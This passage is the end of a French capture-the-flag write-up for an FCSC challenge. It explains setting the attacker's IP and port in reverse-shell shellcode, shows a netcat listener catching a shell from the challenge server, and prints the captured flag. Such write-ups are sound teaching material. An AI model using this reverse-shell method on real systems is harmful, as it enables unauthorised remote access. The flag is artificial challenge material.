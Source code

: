 Remarque: on prendra soin de remplacer `\xef\xbe\xad\xde` et `\x0d\xf0` par notre adresse IP et Port respectivement.

On écoute sur le port spécifié dans le shellcode, on envoie l'URL sur le service, puis on attend patiemment notre shell!

```
$ nc -lvp 4444
Listening on 0.0.0.0 4444
Connection received on ns3049096.ip-151-80-29.eu 50082
id
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
cat flag
FCSC{da8089fd6e7a40288a64f88b6a1a8027457206dffbfb28a5c8489a4e1c866e08}
```

![img](img/success-meme.png)

Merci à \J pour ce challenge très intéressant sur lequel j'ai pu obtenir le first blood, et qui s'est révélé être beaucoup moins compliqué que prévu avec les protections manquantes.

